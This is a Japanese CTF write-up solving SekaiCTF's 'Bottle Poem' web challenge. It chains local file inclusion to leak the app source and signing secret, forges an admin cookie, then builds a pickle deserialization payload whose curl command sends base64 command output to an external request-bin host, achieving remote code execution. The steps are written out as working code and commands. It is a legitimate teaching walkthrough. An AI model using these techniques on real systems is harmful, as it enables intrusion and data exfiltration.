

# Bottle Poem:Web:100pts
Come and read poems in the bottle.  
No bruteforcing is required to solve this challenge. Please do not use scanner tools. Rate limiting is applied. Flag is executable on server.  

[http://bottle-poem.ctf.sekai.team](http://bottle-poem.ctf.sekai.team/)  

# Solution
URLのみが渡される。  
アクセスすると、ポエムを読み取ることができるサイトのようだ。  
Sekai’s boooootttttttlllllllleeeee  
  
ポエム表示ページのURLを見ると`http://bottle-poem.ctf.sekai.team/show?id=spring.txt`であった。  
LFIを狙い`/etc/passwd`を取得する。  
```bash
$ curl http://bottle-poem.ctf.sekai.team/show?id=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
~~~
```
取得できたが、フラグファイルなどは読み取れない。  
ここで、動いているファイル名が`app.py`とGuessしてソースを取得してみる。  
```bash
$ curl http://bottle-poem.ctf.sekai.team/show?id=../app.py
No!!!!
$ curl http://bottle-poem.ctf.sekai.team/show?id=../satoki.py
No This Poems
```
`No!!!!`と表示されるが、ファイルが存在しない場合の`No This Poems`とは挙動が異なる。  
ブラックリストで弾いていそうなのでバイパスを考える。  
よく知られた`/proc/self/cwd`を試す。  
```bash
$ curl http://bottle-poem.ctf.sekai.team/show?id=/proc/self/cwd/app.py
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```
無事ソースが得られた。  
`/sign`という隠された挙動が発見できる。  
[site2.png](site/site2.png)  
cookieに保存されているnameが`admin`になればよさそうだが、`secret=sekai`で署名されている。  
幸いなことに`from config.secret import sekai`とされているのでLFIで読んでやればよい。  
```bash
$ curl http://bottle-poem.ctf.sekai.team/show?id=/proc/self/cwd/config/secret.py
sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
```
secretがわかったため、ソースと同じbottleを起動し、自身で署名してやればよい。  
test1.pyで行う。  
```python
from bottle import route, run, response

@route("/")
def index():
    session = {"name": "admin"}
    response.set_cookie("name", session, secret="Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu")
    return "Satoki"

if __name__ == "__main__":
    run(host="0.0.0.0", port=8081)
```
cookieを取得する。  
```bash
$ curl http://localhost:8081 -I
HTTP/1.0 200 OK
Date: Sat, 01 Oct 2022 08:39:12 GMT
Server: WSGIServer/0.2 CPython/3.8.10
Content-Length: 6
Content-Type: text/html; charset=UTF-8
Set-Cookie: name="!rsOwvUb6jllVHQVOPlZv5w==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFYWRtaW6Uc4aULg=="
```
これを用いて、`/sign`にadminとしてアクセスするが、ページには何もない。  
[site3.png](site/site3.png)  
どうやらSSTIなどRCEを目指す必要がありそうだ。  
ここで、cookieがシリアライズされているような構成になっていることに気づき、pickleに知られるようなRCE手法を思い出す。  
以下のtest2.pyで行う(外部サーバでコマンド結果を待ち受けている)。  
```python
from bottle import route, run, response
import os

class Exploit:
    def __reduce__(self):
        # https://requestbin.com/
        cmd = ("curl https://enx660uw0g4oc.x.pipedream.net?s=`id|base64`")
        return os.system, (cmd,)

@route("/")
def index():
    session = Exploit()
    response.set_cookie("name", session, secret="Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu")
    return "Satoki"

if __name__ == "__main__":
    run(host="0.0.0.0", port=8082)
```
cookieを取得する。  
```bash
$ curl http://localhost:8082 -I
HTTP/1.0 200 OK
Date: Sat, 01 Oct 2022 08:53:01 GMT
Server: WSGIServer/0.2 CPython/3.8.10
Content-Length: 6
Content-Type: text/html; charset=UTF-8
Set-Cookie: name="!t2jkZB3klceVVq26kRw3fA==?gAWVXAAAAAAAAACMBG5hbWWUjAVwb3NpeJSMBnN5c3RlbZSTlIw4Y3VybCBodHRwczovL2VueDY2MHV3MGc0b2MueC5waXBlZHJlYW0ubmV0P3M9YGlkfGJhc2U2NGCUhZRSlIaULg=="
```
取得したcookieを用いてアクセスすると、外部サーバに以下のリクエストが到達した。  
`/?s=dWlkPTY1NTM0KG5vYm9keSkgZ2lkPTY1NTM0KG5vZ3JvdXApIGdyb3Vwcz02NTUzNChub2dyb3Vw`  
デコードを行う。  
```bash
$ echo 'dWlkPTY1NTM0KG5vYm9keSkgZ2lkPTY1NTM0KG5vZ3JvdXApIGdyb3Vwcz02NTUzNChub2dyb3Vw' | base64 -d
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup
```
途中で切れているがRCEが達成できた。  
あとは逐一cookieを生成しコマンドを実行することで、不審なファイルを探索するだけである。  
以下にクエリ、外部サーバへのリクエスト、デコードした結果を示す。  
まず初めにlsを行う。  
```
?s=`ls|base64`

/?s=YXBwLnB5CmNvbmZpZwpwb2Vtcwp2aWV3cwo=

app.py
config
poems
views
```
何もなさそうなので一つ上を見てやる。  
```
?s=`ls ../|base64`

/?s=YXBwCmJpbgpib290CmRldgpldGMKZmxhZwpob21lCmxpYgpsaWI2NAptZWRpYQptbnQKb3B0CnBy

app
bin
boot
dev
etc
flag
home
lib
lib64
media
mnt
opt
pr
```
flagなるものがあった(LFIでは読み取れない)。  
```
?s=`ls -al ../flag|base64`

/?s=LS0teC0teC0teCAxIHJvb3Qgcm9vdCA1NjggU2VwIDE1IDA2OjM3IC4uL2ZsYWcK

---x--x--x 1 root root 568 Sep 15 06:37 ../flag
```
権限から見るに、実行すればよさそうだ。  
```
?s=`../flag|base64`

/?s=U0VLQUl7VzNsY29tZV9Ub19PdXJfQm90dGxlfQo=

SEKAI{W3lcome_To_Our_Bottle}
```
flagが得られた。  

## SEKAI{W3lcome_To_Our_Bottle}